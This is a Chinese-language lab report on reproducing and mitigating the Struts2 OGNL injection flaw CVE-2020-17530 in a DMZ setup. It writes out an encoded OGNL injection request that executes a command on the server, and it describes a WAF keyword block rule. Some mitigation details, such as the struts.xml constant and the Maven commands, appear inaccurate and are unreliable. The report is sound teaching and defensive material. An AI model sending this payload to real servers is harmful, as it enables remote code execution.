

# CVE-2020-17530 漏洞缓解及修复实验报告

## 1. 实验背景

### 1.1 漏洞简介
CVE-2020-17530 是 Struts2 框架中的一个 OGNL 表达式注入漏洞。攻击者可以通过精心构造的 OGNL 表达式，远程执行任意代码，导致服务器被入侵。

### 1.2 影响范围
- Struts 2.0.0 - 2.5.25 版本
- 主要影响使用 `<s:URL>` 组件的应用程序

### 1.3 实验目的
- 复现 CVE-2020-17530 漏洞
- 分析漏洞的利用方式
- 研究并应用缓解及修复方案

---

## 2. 实验环境

### 2.1 实验拓扑
本实验基于 **DMZ 网络** 进行，架构如下：

- **DMZ 服务器**: 部署了含漏洞的 Struts2 Web 应用
- **攻击者主机**: 使用 Kali Linux 进行漏洞利用
- **内部网络**: 目标 Web 服务器与数据库所在的受保护区域

### 2.2 环境配置
- **检查JAVA环境，确保是 Java 7 或更高版本**

---

## 3. 漏洞复现

### 3.1 下载含漏洞的 Struts2 服务器
```bash
wget https://archive.apache.org/dist/struts/2.5.22/struts-2.5.22-all.zip
```

### 3.2 漏洞利用
使用 Burp Suite 拦截请求，并修改参数：
```http
GET /struts2-showcase/showcase.action?name=%25%7B(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue,%23a%3D@java.lang.Runtime@getRuntime().exec(%22whoami%22))%7D HTTP/1.1
Host: target.com
```
返回结果包含服务器用户信息，证明漏洞可被利用。

---

## 4. 漏洞缓解及修复

### 4.1 官方修复方案
升级 Struts2 至 2.5.26 或更高版本。
```bash
mvn dependency:purge-local-repository
mvn clean package
```

### 4.2 临时缓解方案
1. **限制 OGNL 表达式解析**：
   - 在 `struts.xml` 配置文件中添加：
     ```xml
     <constant name="struts.ognl.allowStaticMethodAccess" value="false"/>
     ```
2. **使用 WAF 拦截可疑请求**：
   - 在防火墙或 Nginx 代理层配置规则，屏蔽带有 `%{` 和 `OGNL` 关键字的请求。

### 4.3 DMZ 服务器防护措施
- **最小化权限**: 运行 Struts2 进程时不使用 root 权限。
- **日志监控**: 配置 ELK 监控系统，实时分析访问日志。
- **隔离内部网络**: 确保 DMZ 服务器无法直接访问内部数据库。

---

## 5. 实验总结

- **CVE-2020-17530 是一个高危远程代码执行漏洞**，攻击者可利用 OGNL 表达式执行任意命令。
- **缓解措施**: 及时升级 Struts2、限制 OGNL 解析、配置防火墙规则。
- **安全架构优化**: 通过 DMZ 服务器隔离 Web 服务器与内部网络，降低攻击面。

本实验验证了该漏洞的可利用性，并成功实施了修复与缓解方案，以提高 DMZ 区域的安全性。

---

## 6. 参考资料
- [Struts2 官方公告](https://cwiki.apache.org/confluence/display/WW/S2-061)
- [CVE-2020-17530 详情](https://nvd.nist.gov/vuln/detail/CVE-2020-17530)
- [安全缓解建议](https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHESTRUTS-1017105)

